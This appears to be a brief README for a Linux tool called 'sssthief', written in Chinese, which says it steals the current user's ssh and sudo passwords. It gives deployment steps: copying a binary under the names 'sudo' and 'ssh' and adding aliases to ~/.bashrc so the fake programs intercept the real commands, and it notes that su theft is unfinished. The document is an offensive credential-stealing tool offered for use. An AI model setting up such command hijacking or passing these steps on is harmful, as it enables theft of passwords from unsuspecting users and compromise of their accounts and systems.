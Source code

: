 # sssthief
窃取当前用户的ssh，sudo密码

cp test_linux_amd64 sudo

cp test_linux_amd64 ssh

~/.bashrc

alias sudo="程序路径/sudo"

alias ssh="程序路径/ssh"

ps:su窃取功能未完成
